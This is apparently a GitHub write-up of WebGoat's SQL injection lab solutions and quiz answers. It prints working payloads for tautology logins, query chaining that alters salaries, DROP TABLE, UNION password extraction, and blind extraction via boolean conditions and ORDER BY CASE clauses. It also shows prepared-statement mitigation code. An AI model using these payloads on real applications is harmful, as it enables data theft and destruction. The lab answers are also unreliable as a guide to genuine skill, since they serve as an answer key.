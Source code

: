 # SQL Injection (intro)
### What is SQL?
`SELECT department FROM employees WHERE first_name='Bob' AND last_name='Franco';`
### Data Manipulation Language (DML)
`UPDATE employees SET department='Sales' WHERE first_name='Tobi' AND last_name='Barnett'`

### Data Definition Language (DDL)
`ALTER TABLE employees ADD phone varchar(20);`

### Data Control Language (DCL)
`GRANT ALTER TABLE TO UnauthorizedUser;`

### Try It! String SQL injection
`' OR '1'='1`

### Try It! Numeric SQL injection
`SELECT * FROM user_data WHERE  Login_Count = 0 AND userid = 0 OR 1 = 1`

### Compromising confidentiality with String SQL injection
Employee Name: `John`
Authentification TAN: `' OR '1'='1`

So the internal query would be like this.
`SELECT * FROM employees WHERE last_name = 'John' AND auth_tan = '' OR '1' = '1';`

### Compromising Integrity with Query chaining
Employee Name: `John`
Authentification TAN: `';UPDATE employees SET salary=86000 WHERE last_name='Smith';--`

So the internal query would be like this.
`SELECT * FROM employees WHERE last_name = 'John' AND auth_tan = ''; UPDATE employees SET salary=86000 WHERE last_name='Smith';--';`

### Compromising Availability
`;DROP TABLE access_log;--`

# SQL Injection (advanced)
### Try It! Pulling data from other tables
###### Appending solution
In the `Name` field: `' OR 1=1;SELECT * FROM user_system_data;--`
###### Union solution
In the `Name` field: `'; SELECT userid, first_name, last_name FROM user_data UNION SELECT userid, user_name, password FROM user_system_data;--`
### SQL Injection final test
We have a normal login form in addition with a register one, the vulnerable field is the "user" in the register tab.

Using sql blind injection we can check that if we pass a TRUE statement like `tom' AND 1=1 --` we get this error `User {0] already exists please try to register with a different username` whereas if we use a FALSE statement like `tom' AND 1=2 --` we get the next message `User Tom' AND 1=2 -- created, please proceed to the loging page.`

This way we can start just by asking the sql (blind sql injection) about the length of the password, with `tom' AND length(password) = x --`.

Next, knowing that the length of the password is 23, we can iterate over those 23 characters and ask the database if it pertains to a specific character, as such `tom' AND substring(password,<position>,1) = '<character>' --`.

We can do this manually, with burp, or we can just automate it with a python script as I did.

![script](http://i.imgur.com/fbYdcFd.png) 

### Quiz solutions
1. What is the difference between a prepared statement and a statement?
`A statement has got values instead of a prepared statement`
2. Which one of the following characters is a placeholder for variables?
`?`
3. How can prepared statements be faster than statements?
`Prepared statements are compiled once by the database management system waiting for imput and are pre-compiled this way`
4. How can a prepared statement prevent SQL-Injection?
`Placeholders can prevent that the users input gets attached to the SQL query resulting in a separation of code and data`
5. What happens if a person with malicious intent writes into a register form :Robert); DROP TABLE Students;-- that has a prepared statement?
`The database registers 'Robert' ); DROP TABLE Students;--'`

# SQL Injection (mitigation)
### Try it! Writing safe code
```
Connection conn = DriverManager.getConnection(DBURL, DBUSER, DBPW);
PreparedStatement ps = conn.prepareStatement("SELECT status FROM users WHERE name = ? AND mail = ?");
ps.setString(1, "user");
ps.setString(2, "user");
```

### Try it! Writing safe code (2)
```
try {
	String query = "SELECT * FROM users WHERE name = ?";
	Connection con = DriverManager.getConnection(DBURL, DBUSER, DBPW);
	PreparedStatement stmt = con.prepareStatement(query);
	stmt.setString(1, "Pepe");
	ResultSet rs = stmt.executeQuery();
} catch (Exception e) {
	System.out.println("fail");
}
```

### Practice
For this one, we have to inject in an ORDER BY clause, first of all we sort whatever column we want clicking on it, and intercepting the request with burp we can see that we make a request like this `http://127.0.0.1:8080/WebGoat/SqlInjectionMitigations/servers?column=<the column name we're sorting {id, hostname, ip, mac, status, description}>`
Now, we can  check that if we send in the colum request parameter `(CASE WHEN 1 = 1 THEN id ELSE hostname END)` CASE is the SQL "if" so, if 1 = 1, which is true, will sorter by `id` if not, by `hostname`, playing with this, we can blindli guess the ip.

We assume that the table name is called `servers` and the hostname we looking for is `webgoat-prd`.

The payload is `CASE WHEN ((SELECT SUBSTRING(ip,x,1) FROM servers WHERE hostname='webgoat-prd') = y) THEN hostname ELSE id END)`

Where `x` and `y` are variables we iterate with, if we get the servers sorted by hostname, we know that's the correct digit for the ip in that given index.

I created a script for retrieving it automatically.


![](http://i.imgur.com/1bBtONB.png)
